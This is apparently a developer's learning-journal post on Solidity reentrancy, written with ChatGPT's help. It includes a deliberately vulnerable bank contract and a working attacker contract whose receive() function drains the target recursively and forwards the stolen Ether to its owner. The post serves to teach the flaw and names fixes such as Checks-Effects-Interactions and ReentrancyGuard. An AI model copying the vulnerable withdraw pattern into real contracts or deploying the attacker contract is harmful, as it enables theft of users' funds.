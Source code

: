 # My Solidity Learning Journey: Understanding Reentrancy Attacks

## Introduction

As I approach my **one-year anniversary working in the crypto industry**, I've been reflecting on the critical importance of security in decentralized finance (DeFi) and smart contracts. This reflection has been intensified by the recent **Bybit hack**, where North Korean hackers, known as the Lazarus Group, stole over **$1.5 billion** in Ethereum from the Dubai-based exchange, marking one of the largest cryptocurrency thefts to date.

This incident underscores that some of the most devastating hacks result from **simple programming mistakes**. One such vulnerability that has plagued Solidity developers is the **reentrancy attack**.

To document my learning journey transparently, I utilized ChatGPT to generate Solidity contracts and explanations, refining them through iterative feedback until I felt they were suitable for inclusion in my learning journal. If you are new to Solidity, I will walk through **each line of code** to ensure a complete understanding of how the contracts work.

---

## Learning Solidity by Building a Simple Bank

To grasp Solidity fundamentals, I explored a **simple bank contract** allowing users to **deposit and withdraw Ether**. Here's the initial version generated:

```solidity
// SPDX-License-Identifier: MIT
// Specifies the license type for the contract, making it easier for others to reuse legally.
pragma solidity ^0.8.0; 
// Declares that the contract is written in Solidity version 0.8.0 or higher.

// 'contract' is a Solidity keyword used to define a smart contract.
// A contract is a self-contained unit of code and data that runs on the blockchain.
contract SimpleBank {
    // Mapping to store user balances. Each address is mapped to an unsigned integer (uint256) representing its balance.
    mapping(address => uint256) public balances;

    // Function to deposit Ether into the contract.
    // The 'payable' modifier allows this function to receive Ether when called.
    function deposit() public payable {
        // msg.sender refers to the account that called this function.
        // msg.value is the amount of Ether sent with the transaction.
        balances[msg.sender] += msg.value;
    }

    // Function to withdraw funds from the contract.
    function withdraw() public {
        // Retrieve the balance of the caller.
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No funds to withdraw"); // Ensure the caller has funds.
        
        // ⚠️ Vulnerability: The external call is made before updating the balance.
        // Transfers Ether to the caller using the `.call` method.
        // `.call` is a low-level Solidity function that sends Ether and allows execution of fallback functions.
        // It returns a boolean indicating success or failure, but does not revert on failure.
        // The empty string "" is passed as call data, meaning no function is explicitly called.
        (bool success, ) = msg.sender.call{value: amount}(""); 
        require(success, "Transfer failed");

        // ❌ Too late! The balance should have been updated before sending funds.
        balances[msg.sender] = 0;
    }
}
```

### How This Opens a Window for Reentrancy

1. **An external call is made before updating the balance**:
   - When `msg.sender.call{value: amount}("")` executes, it sends Ether to `msg.sender`.
   - If `msg.sender` is an externally owned account (EOA, a normal wallet), the transaction completes normally.
   - However, if `msg.sender` is a **smart contract**, Solidity automatically triggers a special function in that contract, known as a **fallback function**.

2. **What is a fallback function?**
   - A fallback function is a special function in a Solidity smart contract that executes when the contract **receives Ether without any specific function being called**.
   - It is often used to handle direct transfers of Ether and can also execute arbitrary logic when triggered.
   - If a contract has a function named `receive()` or a generic `fallback()` function, that function will **run automatically** when Ether is sent to the contract.

3. **A malicious contract can exploit this behavior**:
   - Instead of just receiving Ether, a contract receiving funds **can execute additional code** in its fallback function.
   - If this malicious contract calls `withdraw()` again inside its fallback function, it can withdraw multiple times in a loop **before the balance updates**.

---

## Understanding the Reentrancy Attack

### The Attacker’s Malicious Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 'interface' is a Solidity keyword used to define a contract's external functions without implementation.
// Interfaces allow interaction with other contracts by specifying the function signatures they expose.
interface IVulnerable {
    function deposit() external payable;
    function withdraw() external;
}

// Attack contract designed to exploit the vulnerable contract.
contract ReentrancyAttacker {
    IVulnerable public target; // Stores the address of the vulnerable contract.
    address public owner; // Stores the attacker's address.

    constructor(address _target) {
        target = IVulnerable(_target); // Assigns the target contract.
        owner = msg.sender; // Sets the attacker's address.
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Send at least 1 ETH");
        target.deposit{value: msg.value}();
        target.withdraw(); // Starts the reentrancy process.
    }

    // The fallback function is triggered when this contract receives Ether.
    receive() external payable {
        if (address(target).balance >= 1 ether) {
            target.withdraw(); // 🚨 Calls withdraw recursively before balance updates.
        } else {
            payable(owner).transfer(address(this).balance); // Sends stolen funds to the attacker.
        }
    }
}
```

---

## Summary and Conclusion

This deep dive into reentrancy attacks has shown how a simple **ordering mistake** in Solidity code can lead to a devastating vulnerability. 

### Key Takeaways:
- **Reentrancy occurs when an external call is made before updating internal state**, allowing a malicious contract to re-enter and execute unintended function calls.
- **Fallback functions allow contracts to execute arbitrary logic when receiving Ether**, which attackers can exploit to repeatedly drain a vulnerable contract.
- **The Checks-Effects-Interactions pattern mitigates reentrancy attacks by ensuring that state updates happen before external calls.**
- **Using OpenZeppelin’s `ReentrancyGuard` is another effective way to prevent reentrant calls.**

Understanding and mitigating vulnerabilities like **reentrancy** is crucial for writing secure Solidity contracts. **Security must be an integral part of smart contract development, not an afterthought.**

### Next Steps

Moving forward, I plan to explore **integer overflows, front-running, and other Solidity security vulnerabilities**, continuing my journey of learning how to write robust and secure smart contracts.

🚀 **Next up: Integer overflows, front-running, and more Solidity security concepts!**

